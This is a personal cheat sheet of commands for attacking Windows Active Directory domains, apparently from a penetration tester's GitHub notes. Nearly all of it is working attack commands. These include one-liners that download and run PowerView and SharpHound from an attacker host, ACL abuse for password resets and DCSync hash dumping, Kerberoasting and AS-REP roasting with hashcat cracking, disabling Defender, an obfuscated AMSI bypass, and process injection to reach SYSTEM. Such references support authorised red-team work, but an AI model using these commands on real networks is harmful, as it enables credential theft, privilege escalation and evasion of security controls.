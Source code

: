```yaml
---
description: >-
  This is just a living document of things I have needed for domain
  enumeration/exploitation
---
```


# Domain Enumeration + Exploitation

## POWERSPLOIT

Use the `dev` branch or [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/dev). For an already incredible cheat sheet, [check out HarmJ0y's](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993).

`IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1')`

### Get Domain Users

`Get-NetUser * -Domain corp.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset, lastlogontimestamp,accountexpires,admincount,userprincipalname, serviceprincipalname, mail,useraccountcontrol | Export-CSV users.csv`

### Get Domain Computers

`Get-NetComputer * -Domain corp.local | Select-Object -Property dnshostname,operatingsystem,operatingsystemservicepack,lastlogontimestamp | Export-CSV computers.csv`

### SPN Ticket Request

`Get-DomainUser * -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | Export-Csv .\ticket.csv -NoTypeInformation`

### Enumerate User DACLs

```text
PS C:\> Get-DomainObjectAcl -Identity it_admin -ResolveGUIDs ? { $_.SecurityIdentifier -Match $(ConvertTo-SID burmat) }

AceType               : AccessAllowed
ObjectDN              : CN=it_admin,CN=Users,DC=BURMAT,DC=CO
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-2736429227-4547413232-2815246478-1130
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-2736429227-4547413232-2815246478-1107
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed
```

### Reset Domain User Password

If you own the owner of another AD user object \(`WriteOwner`, `WriteDACL`, `GenericWrite`, `Owner`, etc\), you can reset the password with ease:

```text
IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1')

$user = 'DOMAIN\owner_acct'; 
$pass= ConvertTo-SecureString 'Password123!' -AsPlainText -Force; 
$creds = New-Object System.Management.Automation.PSCredential $user, $pass;

$newpass = ConvertTo-SecureString 'burmatw@sh3r3' -AsPlainText -Force; 

Set-DomainUserPassword -Identity 'DOMAIN\vuln_user' -AccountPassword $newpass -Credential $creds;
```

Or if you can set yourself as owner, the following will do:

```text
IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1')
Set-DomainObjectOwner -Identity it_admin -OwnerIdentity burmat
Add-DomainObjectAcl -TargetIdentity it_admin -PrincipalIdentity burmat
$newpass = ConvertTo-SecureString -String 'burmat123$' -AsPlainText -Force
Set-DomainUserPassword -Identity it_admin -AccountPassword $newpass
```

### Add/Exploit DCSync Rights

Do you have `WriteDACL` to a domain? Give DCSync rights to an unprivileged domain user account:

`Add-DomainObjectAcl -TargetIdentity "DC=burmatco,DC=local" -PrincipalIdentity useracct1 -Rights DCSync`

And use these rights to dump the hashes from the domain:

`meterpreter > dcsync_ntlm BURMATCO\\useracct1`

## BLOODHOUND

### Ingestor Launch

```text
IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.123/ps/SharpHound.ps1');
Invoke-BloodHound -CollectionMethod All -CompressData -SkipPing;
```

## LDAP QUERIES

Below are some useful LDAP queries that will help you enumerate a system. Some of them require a valid username/password to get more information. My go-to for these queries is `ldapsearch`:

```text
ldapsearch -LLL -x -H ldap://burmat.co -D "svc-burmat" -w "burmat123$" -b "dc=burmat,dc=co" "<LDAP QUERY HERE>"
```

### ASREPRoast Accounts

```text
## ldap filter to find accounts susceptible to this:
"(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))"

## generate a list of user accounts and use impacket to exploit:
python GetNPUsers.py -request -no-pass -dc-ip 10.1.1.123 burmat.co/ -usersfile users.txt

## and if you get a ticket, you can crack it:
hashcat -m 18200 -a 0 --force user.hash /usr/share/wordlists/rockyou.txt
```

### User Account Objects with SPNs

```text
"(&(&(servicePrincipalName=*) (UserAccountControl:1.2.840.113556.1.4.803:=512)) (!(UserAccountControl:1.2.840.113556.1.4.803:=2)))"

## if you get valid domain credentials, you can dump them w/ impacket for offline cracking:
python GetUserSPNs.py -request burmat.co/svc-burmat:burmat123$
```

### User and Computers with Unconstrained Delegation

```text
# user:
"(&(&(objectCategory=person) (objectClass=user)) (userAccountControl:1.2.840.113556.1.4.803:=524288))"

# computer:
"(&(objectCategory=computer) (objectClass=computer) (userAccountControl:1.2.840.113556.1.4.803:=524288))"
```

### Domain Administrators

```text
"(&(objectClass=user) (memberof:1.2.840.113556.1.4.1941:=CN=Domain Admins,CN=Users,DC=burmat,DC=co))"
```

### Group Policies

```text
"objectClass=groupPolicyContainer"
```

## EVADING AV

### Checking Status

```text
# is av enabled:
PS C:\> Get-MpComputerStatus

# applocker rules:
PS C:\> $a = Get-ApplockerPolicy -effective
PS C:\> $a.rulecollections

# constrained?:
PS C:\> $ExecutionContext.SessionState.LanguageMode
```

### Turning Off Defender's RTM

`PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus`

### AMSI Bypass

```text
PS C:\> [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
```

## PROCESS ELEVATION \(via SeDebugPrivilege\)

If you run `whoami /priv` and you see `SeDebugPrivilege` set to `Enabled`, you can assume you already have SYSTEM.  

One way of doing it, is using [decoder](https://twitter.com/decoder_it)'s `psgetsys.ps1` [script](https://github.com/decoder-it/psgetsystem) once you have a good idea on a PID to inject:  

`. .\psgetsys.ps1; [MyProcess]::CreateProcessFromParent(7864,'C:\temp\burmat443.exe');`

You can also gain a MSF session and use the module `windows/manage/payload_inject` with a PID of your choice.

## REMOTE DESKTOP

### Enable RDP

```text
PS C:\> Set-itemproperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\' -Name "fDenyTSConnections" -value 0
PS C:\> Set-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\' -Name "UserAuthentication" -value 1
PS C:\> Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

## MISCELLANEOUS 

```text
# list shared folders
PS> Get-WmiObject -Class Win32_Share -Computer dc1.burmat.co
```

